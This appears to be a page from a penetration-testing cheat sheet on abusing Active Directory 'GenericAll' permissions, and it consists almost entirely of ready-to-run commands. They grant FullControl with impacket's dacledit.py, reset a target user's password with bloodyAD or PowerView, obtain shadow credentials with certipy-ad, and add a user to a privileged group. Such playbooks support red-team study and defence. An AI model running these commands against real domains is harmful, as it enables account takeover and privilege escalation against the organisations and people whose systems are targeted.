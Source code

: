 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["GenericAll", "active driectory", "ad", "Windows", "shadow credentials"]
---
```


### Abuse #1: Change target user password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add Full Control to current user

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

#### 2. Change password

{{< tab set1-1 tab1 active >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> set password <TARGET_USER> <NEW_PASSWORD>
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Change target user password

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

{{< /tabcontent >}}

---

### Abuse #2: Get shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add Full Control to current user

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

#### 2. Get shadow credentials

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USERNAME>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC>
```

{{< /tabcontent >}}

---

### Abuse #3 : Add user to group

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView
```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add user to group

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

{{< /tabcontent >}}
